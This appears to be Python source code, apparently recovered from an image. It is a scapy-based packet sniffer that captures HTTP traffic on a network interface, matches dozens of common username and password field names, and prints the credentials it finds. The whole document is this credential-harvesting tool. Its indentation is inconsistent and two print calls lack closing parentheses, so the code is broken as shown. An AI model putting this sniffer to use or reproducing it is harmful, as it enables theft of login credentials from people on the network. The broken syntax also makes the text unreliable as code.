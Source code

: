 ```
from scapy.all import *
from urllib import parse
import re 

iface = "eth0"

def extract_login_pass(body):
	username = None
	password = None
	
	userfields = ['log', 'login', 'wpname', 'ahd_username', 'unickname', 'nickname', 'user', 'user_name', 'alias', 'pseudo', 'email', 'username', '_username', 'userid', 'form_loginname', 'loginname', 'login_id', 'loginid', 'session_key', 'sessionkey', 'pop_login', 'uid', 'id', 'user_id', 'screename', 'uname', 'ulogin', 'acctname', 'account', 'member', 'mailaddress', 'membername', 'login_username', 'login_email', 'loginusername', 'loginemail', 'uin', 'sign-in', 'usuario']
	
    passfields = ['ahd_password', 'pass', 'password', '_password', 'passwd', 'session_password', 'sessionpassword', 'login_password', 'loginpassword', 'form_pw', 'pw', 'userpassword', 'pwd', 'upassword', 'login_password', 'passwort', 'passwrd', 'wppassword', 'upasswd', 'senha', 'contrasena']
				  
	for login in userfields:
		login_re = re.search('(%s=[^&]+)' % login, body, re.IGNORECASE)
		if login_re:
			username = login_re.group()
			
	for passfield in passfields:
		pass_re = re.search('(%s=[^&]+)' % passfield, body, re.IGNORECASE)
		if pass_re:
			password = pass_re.group()
			
	if username and password:
		return (username, password)

def pkt_parser(packet):
	if packet.haslayer(TCP) and packet.haslayer(Raw) and packet.haslayer(IP):
		body = str(packet[TCP].payload)
		login_info = extract_login_pass(body)
		if login_info != None:
			print(packet[TCP].payload)
			print(parse.unquote(login_info[0])
			print(parse.unquote(login_info[1])
	else:
		pass
		
try:
	sniff(iface=iface, prn=pkt_parser, store=0)
except KeyboardInterrupt:
	print('Stopping ...')
	exit(0)
```

---
